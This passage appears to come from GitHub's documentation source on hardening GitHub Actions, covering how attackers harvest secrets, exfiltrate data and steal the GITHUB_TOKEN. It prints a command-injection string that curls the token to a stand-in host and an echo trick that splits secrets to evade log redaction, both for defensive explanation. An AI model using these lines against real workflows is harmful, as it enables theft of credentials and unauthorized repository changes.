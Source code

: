   {% raw %}

  ```
  uses: fakeaction/publish@v3
  with:
      key: ${{ secrets.PUBLISH_KEY }}
  ```

  {% endraw %}

Although {% data variables.product.prodname_actions %} scrubs secrets from memory that are not referenced in the workflow (or an included action), the `GITHUB_TOKEN` and any referenced secrets can be harvested by a determined attacker.

### Exfiltrating data from a runner

An attacker can exfiltrate any stolen secrets or other data from the runner. To help prevent accidental secret disclosure, {% data variables.product.prodname_actions %} [automatically redact secrets printed to the log](/actions/reference/encrypted-secrets#accessing-your-secrets), but this is not a true security boundary because secrets can be intentionally sent to the log. For example, obfuscated secrets can be exfiltrated using `echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};`. In addition, since the attacker may run arbitrary commands, they could use HTTP requests to send secrets or other repository data to an external server.

### Stealing the job's `GITHUB_TOKEN`

It is possible for an attacker to steal a job's `GITHUB_TOKEN`. The {% data variables.product.prodname_actions %} runner automatically receives a generated `GITHUB_TOKEN` with permissions that are limited to just the repository that contains the workflow, and the token expires after the job has completed. Once expired, the token is no longer useful to an attacker. To work around this limitation, they can automate the attack and perform it in fractions of a second by calling an attacker-controlled server with the token, for example: `a"; set +e; curl http://example.lab?token=$GITHUB_TOKEN;#`.

### Modifying the contents of a repository

The attacker server can use the {% data variables.product.prodname_dotcom %} API to [modify repository content](/actions/reference/authentication-in-a-workflow#permissions-for-the-github_token), including releases, if the assigned permissions of `GITHUB_TOKEN` [are not restricted](/actions/reference/authentication-in-a-workflow#modifying-the-permissions-for-the-github_token).

## Considering cross-repository access

{% data variables.product.prodname_actions %} is intentionally scoped for a single repository at a time. The `GITHUB_TOKEN` grants the same level of access as a write-access user, because any write-access user can access this token by creating or modifying a workflow file{% ifversion fpt or ghes > 3.1 or ghae-next %}, elevating the permissions of the `GITHUB_TOKEN` if necessary{% endif %}. Users have specific permissions for each repository, so allowing the `GITHUB_TOKEN` for one repository to grant access to another would impact the {% data variables.product.prodname_dotcom %} permission model if not implemented carefully. Similarly, caution must be taken when adding {% data variables.product.prodname_dotcom %} authentication tokens to a workflow, because this can also affect the {% data variables.product.prodname_dotcom %} permission model by inadvertently granting broad access to collaborators.

We have [a plan on the {% data variables.product.prodname_dotcom %} roadmap](https://github.com/github/roadmap/issues/74) to support a flow that allows cross-repository access within {% data variables.product.product_name %}, but this is not yet a supported feature. Currently, the only way to perform privileged cross-repository interactions is to place a {% data variables.product.prodname_dotcom %} authentication token or SSH key as a secret within the workflow. Because many authentication token types do not allow for granular access to specific resources, there is significant risk in using the wrong token type, as it can grant much broader access than intended.

